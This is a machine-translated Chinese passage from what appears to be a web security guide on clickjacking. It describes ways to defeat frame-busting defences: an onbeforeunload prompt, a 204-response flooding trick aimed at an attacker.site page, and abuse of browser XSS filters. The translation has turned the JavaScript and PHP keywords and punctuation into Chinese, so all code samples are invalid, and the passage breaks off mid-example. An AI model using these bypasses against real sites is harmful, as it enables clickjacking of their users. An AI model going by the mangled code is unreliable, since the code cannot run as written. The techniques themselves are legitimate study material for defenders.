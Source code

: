 攻击者可以通过使用以下示例代码在首页上注册卸载事件来使用此攻击：

< h1 > www.fictitious.site </ h1 > 
< 脚本> 
    窗口。onbeforeunload  =  function （）
    { 
        返回 “您是否想离开虚拟站点？” ; 
    } 
</ 脚本> 
< iframe  src =“ http：//目标站点 ” >
先前的技术需要用户交互，但是可以在不提示用户的情况下实现相同的结果。为此，攻击者必须通过重复（例如，每毫秒）将导航请求提交到响应“ HTTP / 1.1 204 No Content”标头的网页来自动取消onBeforeUnload事件处理程序中的传入导航请求。

由于使用此响应，浏览器将不执行任何操作，因此该操作的结果是刷新请求管道，从而使原始帧清除尝试无效。

遵循示例代码：

204页：

<？php 
    标头（“ HTTP / 1.1 204 No Content”）；
？>
攻击者页面：

< 脚本> 
    var  prevent_bust  =  0 ; 
    窗口。onbeforeunload  =  function （） { 
        prevent_bust ++ ; 
    } ; 
    的setInterval （
        函数（） { 
            如果 （prevent_bust  >  0 ） { 
                prevent_bust  - =  2 ; 
                窗口。顶部。位置 =  “http://attacker.site/204.php” ; 
            } 
        } ， 1 ）; 
</ 脚本> 
< iframe  src =“ http：//目标网站 ” >
XSS过滤器
从Google Chrome 4.0和IE8开始，引入了XSS过滤器，以保护用户免受反射的XSS攻击。Nava和Lindsay已经观察到，这类过滤器可以伪装成恶意代码，从而用于停用帧无效代码。

IE8 XSS过滤器：此过滤器可以查看流经Web浏览器的每个请求和响应的所有参数，并将其与一组正则表达式进行比较，以查找反射的XSS尝试。当过滤器识别出可能的XSS攻击时；它会禁用页面中的所有内联脚本，包括框架清除脚本（使用外部脚本可以完成相同操作）。因此，攻击者可以通过将帧破坏脚本的开头插入请求的参数中来引起误报。
示例：目标网页框架无效代码：

< 脚本> 
    if  （ top！= self  ）
    { 
        top 。位置= 自我。位置; 
    } 
</ 脚本>
攻击者代码：

< iframe  src = ” http：//目标 站点 /？param = <脚本>如果” >
Chrome 4.0 XSSAuditor过滤器：与IE8 XSS过滤器相比，它的行为略有不同，实际上，攻击者可以通过在请求参数中传递其代码来停用“脚本”。这使框架页面可以专门针对包含帧清除代码的单个代码段，而其他所有代码均保持不变。
示例：目标网页框架无效代码：
